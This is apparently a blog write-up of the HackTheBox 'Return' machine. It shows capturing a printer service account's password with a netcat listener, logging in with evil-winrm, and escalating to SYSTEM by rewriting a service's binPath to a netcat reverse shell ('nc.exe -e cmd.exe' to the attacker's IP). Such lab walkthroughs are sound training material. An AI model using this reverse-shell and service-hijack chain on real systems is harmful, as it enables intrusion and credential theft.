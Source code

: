 ```yaml
---
title: Return writeup
date: 2022-06-27 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "windows", "printer"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/return/
image: # Thumbnail 
  src: Return.png
  width: 1000   # in pixels
  height: 400   # in pixels
---  
```


## Summary
This box is an easy windows machine that focuses on using a user that is part of the Server Operators group to start a service giving us a reverse shell as `nt authority\system`

## Foothold
We start out by doing an nmap port scan 

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-27 23:28 CEST
Nmap scan report for 10.129.95.241
Host is up (0.023s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-27 21:46:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 18m35s
| smb2-time: 
|   date: 2022-06-27T21:47:01
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.92 seconds
```
The server has a bunch of ports open. Let's start by checking out the web application hosted on port 80, since it seems like an admin panel for a printer.  

![](welcome.png)

If we access the settings tab we can change the address of the server to our own IP address. We can then setup a listener on port 389. This is just so we can see what is going on when the machine tries to connect to us. 

![](settings.png)

```console
┌──(bitis㉿workstation)-[~/htb/Machines/return]
└─$ nc -lvnp 389                                                                                                                                                                                                                        1 ⨯
listening on [any] 389 ...
connect to [10.10.14.24] from (UNKNOWN) [10.129.95.241] 49243
0*`%return\svc-printer�
                       1edFg43012!!
```
It seems that when the printer attempted to connect to our machine it gave us its name and password. Neat. We can use these credentials to login via evil-winrm.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/return]
└─$ evil-winrm -i 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'                                                                                                                                                                      1 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

## Privilege escalation
Now that we have access to the system we should check out what kind of privileges our user has. 

```console
Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/27/2022 3:00:17 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

```
Our user is part of the `Server Operators` group, which can stop and start services on the system. We can add our own little service, start it and then elevate our privileges.

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/bitis/htb/Machines/return/nc.exe
Info: Uploading /home/bitis/htb/Machines/return/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                          
Data: 51488 bytes of 51488 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.24 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 

```
We successfully changed the vss service to create a reverse shell on port 4444 before restarting it

```console
┌──(bitis㉿workstation)-[~/htb/Machines/return]
└─$ nc -lvnp 4444                 
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.129.95.241] 49274
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net users
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt                   
svc-printer              
The command completed with one or more errors.


C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```
Rooted!